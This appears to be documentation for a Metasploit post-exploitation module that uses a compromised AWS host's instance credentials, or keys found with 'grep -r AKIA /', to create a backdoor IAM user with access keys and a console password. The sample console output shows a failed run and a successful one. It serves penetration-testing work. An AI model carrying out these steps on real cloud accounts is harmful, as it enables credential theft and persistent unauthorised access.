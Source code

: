 If the host does not have an instance profile or the right access, the output will look like so:

```
[*] 169.254.169.254 - looking for creds...
[*] Creating user: 3SFFML3ucP1AyP7J
[-] User: arn:aws:sts::abcd:assumed-role/msftest/i-abacadab is not authorized to perform: iam:CreateUser on resource: arn:aws:iam::abcd:user/3SFFML3ucP1AyP7J
[*] Creating group: 3SFFML3ucP1AyP7J
[-] User: arn:aws:sts::abcd:assumed-role/msftest/i-abacadab is not authorized to perform: iam:CreateGroup on resource: arn:aws:iam::abcd:group/3SFFML3ucP1AyP7J
[*] Creating group policy: 3SFFML3ucP1AyP7J
[-] User: arn:aws:sts::abcd:assumed-role/msftest/i-abacadab is not authorized to perform: iam:PutGroupPolicy on resource: group 3SFFML3ucP1AyP7J
[*] Adding user (3SFFML3ucP1AyP7J) to group: 3SFFML3ucP1AyP7J
[-] User: arn:aws:sts::abcd:assumed-role/msftest/i-abacadab is not authorized to perform: iam:AddUserToGroup on resource: group 3SFFML3ucP1AyP7J
[*] Creating API Keys for 3SFFML3ucP1AyP7J
[-] User: arn:aws:sts::abcd:assumed-role/msftest/i-abacadab is not authorized to perform: iam:CreateAccessKey on resource: user 3SFFML3ucP1AyP7J
[*] Post module execution completed
```

## Abusing API Access Keys

In the case that the host we have taken over has no instance profile or does not
have the required privileges, we can search the host for access keys with
something like `grep -r AKIA /`. These keys may have admin privileges at which
point you own the account, if not we may be able to escalate privileges.
We can set `AccessKeyId`, `SecretAccessKey`, & `Token` (optional) and rerun
the exploit to test this possibility.

```
msf exploit(sshexec) > use auxiliary/admin/aws/aws_create_iam_user
msf post(aws_create_iam_user) > set AccessKeyId AKIAAKIAAKIAAKIAAKIA
AccessKeyId => AKIAAKIAAKIAAKIAAKIA
msf post(aws_create_iam_user) > set SecretAccessKey jhsdlfjkhalkjdfhalskdhfjalsjkakhksdfhlah
SecretAccessKey => jhsdlfjkhalkjdfhalskdhfjalsjkakhksdfhlah
msf post(aws_create_iam_user) > set SESSION 1
SESSION => 1
msf post(aws_create_iam_user) > run
msf post(aws_create_iam_user) > run

[*] 169.254.169.254 - looking for creds...
[*] Creating user: bZWsmzyupDWxe8CT
[*] Creating group: bZWsmzyupDWxe8CT
[*] Creating group policy: bZWsmzyupDWxe8CT
[*] Adding user (bZWsmzyupDWxe8CT) to group: bZWsmzyupDWxe8CT
[*] Creating API Keys for bZWsmzyupDWxe8CT
[*] Creating password for bZWsmzyupDWxe8CT
AWS Account Information
=======================

UserName          GroupName         SecretAccessKey                           AccessKeyId           Password          AccountId
--------          ---------         ---------------                           -----------           --------          ---------
bZWsmzyupDWxe8CT  bZWsmzyupDWxe8CT  74FXOTagsYCzxz0pjPOmnsASewj4Dq/JzH3Q24qj  AKIAJ6IVXYRUQAXU625A  bZWsmzyupDWxe8CT  xxxxx

[+] AWS CLI/SDK etc can be accessed by configuring with the above listed values
[+] AWS console URL https://xxxxx.signin.aws.amazon.com/console may be used to access this account
[+] AWS loot stored at: /Users/yyyy/.msf4/loot/20161208141050_default_172.30.0.116_AWScredentials_636339.txt
[*] Post module execution completed
```